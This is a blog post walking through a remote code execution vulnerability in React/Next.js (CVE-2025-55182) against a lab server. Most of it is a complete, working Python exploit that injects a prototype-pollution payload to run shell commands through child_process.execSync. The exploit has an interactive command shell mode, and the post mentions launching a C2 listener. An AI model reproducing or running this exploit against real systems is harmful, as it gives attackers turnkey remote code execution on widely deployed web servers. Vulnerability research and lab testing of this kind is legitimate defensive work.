




# Intro

At the time of this writing a **CRITICAL 10.0** vulnerability had been discovered within [React](https://nvd.nist.gov/vuln/detail/CVE-2025-55182):



In this blog post I'll go over the publicly available PoC and how to abuse this in order to get **RCE** on the victim server.

# Walkthrough
## PoC

I cloned the vulnerable server to my **Ubuntu** VM, this was a fresh install of the latest version:



Next up I installed the following packages in order to run the test server:

```bash
sudo apt install npm
npm install next
```


Once this was done I fired up the server:

```bash
npm run dev
```



## RCE

Moving over to **Kali** I would be using the following `poc.py` script in order to achieve **Remote Code Execution (RCE)** on the server:

```python
import requests
import json
import sys
import argparse
import re


# -------------------------------------------------------
# Build malicious chunk
# -------------------------------------------------------
def build_chunk(cmd: str) -> dict:
    js_payload = (
        "var res = process.mainModule.require('child_process')"
        f".execSync('{cmd}',{{timeout:5000}})"
        ".toString().trim();"
        "throw Object.assign(new Error('NEXT_REDIRECT'),{digest:`${res}`});"
    )

    return {
        "then": "$1:__proto__:then",
        "status": "resolved_model",
        "reason": -1,
        "value": '{"then": "$B0"}',
        "_response": {
            "_prefix": js_payload,
            "_formData": {
                "get": "$1:constructor:constructor",
            },
        },
    }


# -------------------------------------------------------
# Extract digest (command output) from server response
# -------------------------------------------------------
def extract_digest(resp_text: str) -> str | None:
    try:
        for line in resp_text.splitlines():
            m = re.search(r'"digest":"(.*?)"', line)
            if m:
                return m.group(1).replace("\\n", "\n")
        return None
    except Exception:
        return None


# -------------------------------------------------------
# Core exploit request
# -------------------------------------------------------
def send_payload(target: str, cmd: str, timeout: int):
    chunk = build_chunk(cmd)

    files = {
        "0": (None, json.dumps(chunk)),
        "1": (None, '"$@0"'),
    }

    headers = {"Next-Action": "x"}

    try:
        response = requests.post(
            target, files=files, headers=headers, timeout=timeout
        )
        return response

    except requests.exceptions.ReadTimeout:
        return "TIMEOUT"

    except Exception as e:
        return f"ERROR: {e}"


def print_output(output: str):
    print("\n===== * Command Output * =====\n")
    print(output.strip(), "\n")


# -------------------------------------------------------
# Interactive shell mode (safe)
# -------------------------------------------------------
def interactive_mode(target: str, timeout: int):
    print("[+] Entering interactive mode. Type 'exit' to quit.\n")

    while True:
        try:
            cmd = input("cmd> ").strip()
        except EOFError:
            break

        if cmd.lower() in ("exit", "quit"):
            break

        result = send_payload(target, cmd, timeout)

        if result == "TIMEOUT":
            print("[!] Timeout (expected if command hung).")
            continue

        elif isinstance(result, str) and result.startswith("ERROR:"):
            print(result)
            continue

        digest = extract_digest(result.text)
        if digest:
            print_output(digest)
        else:
            print("[!] No digest returned, raw response:")
            print(result.text)


# -------------------------------------------------------
# Main
# -------------------------------------------------------
def main():
    parser = argparse.ArgumentParser()

    parser.add_argument("url", help="Target base URL, e.g. http://victim:3000")
    parser.add_argument("-c", "--cmd", help="Single command to execute")
    parser.add_argument("-i", "--interactive", action="store_true", help="Interactive shell mode")
    parser.add_argument("-t", "--timeout", type=int, default=5, help="Request timeout")

    args = parser.parse_args()

    # Interactive shell mode
    if args.interactive:
        interactive_mode(args.url, args.timeout)
        return

    # Single command mode
    if args.cmd:
        result = send_payload(args.url, args.cmd, args.timeout)

        if isinstance(result, str):
            print(result)
            return

        digest = extract_digest(result.text)
        if digest:
            print_output(digest)
        else:
            print("[!] Output not in digest format, raw response:")
            print(result.text)
        return

    print("[-] No command specified and no mode selected.")


if __name__ == "__main__":
    main()
```

I launched my C2 listener `penelope` and ran the script using the following command:

```bash
python3 extended_poc.py http://192.168.172.133:3000 -i
```



Just like that we were able to achieve full **RCE** on the target.